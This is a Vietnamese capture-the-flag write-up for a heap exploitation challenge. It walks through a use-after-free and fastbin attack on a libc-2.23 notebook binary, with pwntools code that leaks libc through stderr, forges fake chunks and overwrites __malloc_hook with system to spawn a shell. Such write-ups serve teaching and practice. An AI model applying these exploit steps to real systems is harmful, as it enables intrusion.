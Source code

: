 **1. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/218445230-1ad72c5c-8238-4fcd-bfa0-0a946aa0dbb4.png)
  - Chương trình tạo một note book bao gồm các tính năng buy, write, erase, read, và được thực hiện trên heap.
  - Sau khi free vẫn có thể sử dụng write nhờ đó ta có thể UAF.
  - Với libc-2.23 thì không có tcache do đó khi free chunk được đưa vào fastbin. 
  - Khi malloc 1 chunk ở fastbin ta cần lưu ý rằng size của chunk đó là hợp lệ và khi free 1 chunk thì chunk được free nextsize phải khác 0 và chunk & 0xf != 0.
  - Ta sẽ ghi đè malloc_hook thành system và thực thi /bin/sh, trước malloc_hook có 1 chunk hợp lệ để malloc là 0x7ffff7dd1afd có size thuộc chunk 0x70:
  - ![image](https://user-images.githubusercontent.com/113702087/218729175-6b550920-bbdd-4d35-a44e-9d9d2626cc6d.png)
  - Vì chỉ có được 1 chunk do đó không thể đưa vào unsorted bin và full relro nên không thể leak libc bằng nhưng cách này. Tuy nhiên trên binary có stderr thuộc phân vùng ghi được cũng như chứa libc, ta có thể cấp phát vào nó để leak libc.
  - Để malloc được địa chỉ đó phải có size, thật may ta có địa chỉ 0x40403d phù hợp với điều này
  - ![image](https://user-images.githubusercontent.com/113702087/218492785-733857f6-1078-49a9-9415-61b616665249.png)
  - Tuy nhiên sau khi đưa 0x40403d, vì có dữu liệu bên trong nên đã có 1 chunk ảo sinh ra do đó không thể malloc với size 0x70. Vậy nên ta sẽ tạo 1 chunk fake với size 0x70 rồi free nó như vậy mới có thể malloc vào 0x7ffff7dd1afd và thay đổi được malloc_hook. Fake chunk được chọn là 0x404050 ta sẽ cần thay đổi 0x404048 = 0x71 và nextsize của nó là 0x4040b8 != 0 ở đây tôi chọn 0x101
**2. Khai thác**
  - sử dụng uaf để malloc vào 0x40403d và thực hiện leak libc
  ```
  size = 0x70 - 8
  book(1, size)
  choice(3)
  book(2, size, p64(exe.sym['stderr']-19))

  book(1, size)
  book(1, size, b'abc')
  choice(4)
  r.recvuntil(b'abc')
  libc_leak = r.recv(6)
  libc.address = u64(libc_leak + b'\x00'*2) - libc.sym['_IO_2_1_stderr_']
  print(hex(libc.address))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218730961-a4bca08a-4e9d-4bd8-a0e1-0f125048e70d.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218731081-18749381-5775-426a-b537-d37bb508c61b.png)
  - setup 2 size cho 2 chunk 0x404045 với size là 0x31 và 0x4040a0 với size 0x41
  ```
  payload = b'\x31' + b'\x00'*18 + b'\x00'*8 + p64(exe.sym['stderr'])
  payload += (91 - len(payload))*b'a' + p64(0x41)
  book(2, size, payload)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218732544-19bad976-0594-4452-b8a6-f96df01d5183.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218732569-0c115792-bad1-44b6-94e2-096c00bf981e.png)
  - chunk 0x404045 có mục đích là thay đổi giá trị ptr còn 0x4040a0 để thay đổi nextsize của fakechunk.
  - đưa 0x404045 vào fast bin, thay đổi nextsize(fakechunk) và tạo chuỗi /bin/sh 
  ```
  book(1, 32)
  choice(3)
  book(2, size, p64(exe.sym['stdin']+5))
  book(1, 32)

  book(1, 48)
  choice(3)
  book(2, size, p64(0x4040a0-0x10))
  book(1, 48)
  book(1, 48, b'/bin/sh\x00'+ b'\x00'*0x10+p64(0x101))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218738397-d757dea8-c6b5-4d88-b3ac-2ca1b52809be.png)
  - thay đổi ptr thành fakechunk và giải phóng nó
  ```
  payload = b'\x00'*3 + p64(0x71) + b'\x00'*8 + p64(exe.sym['size'])
book(1, 32, payload)

choice(3)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739033-1b34b9bd-0ed3-438e-bb9f-bde964b9eee8.png)
  - ghi đè vào malloc_hook
  ```
  payload = p64(libc.sym['__malloc_hook']-35)
book(2, size, payload)
book(1, size)
book(1, size, b'\x00'*19 + p64(libc.sym['system']))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739274-c5f76f53-fc9c-484e-aecc-e3a4880fef7b.png)
  - get shell
  ```
  r.sendlineafter(b'> ', b'1')
r.sendlineafter(b'Size: ', str(0x4040a0).encode('utf-8'))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218739420-57207086-4739-47e1-adb0-4cd54abb560a.png)
